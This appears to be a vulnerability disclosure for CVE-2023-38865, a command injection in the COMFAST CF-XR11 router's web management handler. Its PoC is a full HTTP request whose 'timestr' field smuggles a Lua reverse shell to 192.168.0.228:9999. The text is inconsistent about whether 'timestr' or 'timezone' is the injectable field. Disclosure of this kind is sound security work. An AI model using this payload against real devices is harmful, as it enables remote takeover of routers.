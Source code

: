 # CVE-ID

[cve--2023-38865](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38865)

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_4143F0`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `timestr` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_4143F0`, the program uses function `blobmsg_parse` to obtain the content of parameter `timestr`, `timezone`,`zonename` ,`hostname`,`ntp_client_enabled`,`ntp_enable_server` and `ntp_servername` which are sent by `POST` request. On line 29, the attacker can complete command execution by controlling the `timezone` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: 192.168.0.1
Content-Length: 298
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-00000000
Connection: close

{"timestr":"2021-10-10 10:10:10\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",	"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

